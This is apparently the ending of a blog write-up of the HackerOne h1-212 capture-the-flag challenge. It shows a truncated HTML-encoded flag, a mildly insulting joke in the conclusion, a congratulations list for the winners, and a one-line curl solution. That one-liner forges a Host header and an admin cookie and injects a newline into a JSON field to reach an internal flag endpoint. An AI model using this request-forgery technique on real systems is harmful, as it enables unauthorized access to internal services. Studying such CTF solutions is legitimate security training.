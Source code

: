 [![ctf h1-212 answer](/images/ctf-h1-212-answer.png)](/images/ctf-h1-212-answer.png){:target="_blank"}

Et voilà ! Decoded value:  
&#70;&#76;&#65;&#71;&#58;&#32;&#67;&#70;&#44;&#50;&#100;&#115;&#86;&#92;&#47;&#93;&#102;&#82;&#65;&#89;&#81;&#46;&#84;&#68;&#69;&#112;&#96;&#119;&#34;&#77;&#40;&#37;&#109;&#85;&#59;&#112;&#57;&#43;.........


## Conclusion

Pay attention to all details, stupid idiot!

Jobert's answer in 1 single line:
```
D=104.236.20.43/;eval echo $(C=admin=yes;H='Host:http://admin.acme.org ';N=$(curl -H'Content-Type:application/json' -H$H -b$C -d'{"domain":"0:1337/flag\n212..com"}' "$D"|egrep -o '[0-9]+');curl -H$H -b$C "$D"read.php?id=`expr $N - 1`|jq .[])|base64 --decode
```

Winners:  
[@EdOverflow](https://twitter.com/EdOverflow){:class="flashlink" target="_blank"}  
[@albinowax](https://twitter.com/albinowax){:class="flashlink" target="_blank"}  
[@erbbysam](https://twitter.com/erbbysam){:class="flashlink" target="_blank"}  

Congrats to these 3 people, congrats to all others that successfully got the flag and congrats to everyone that at least gave a try!
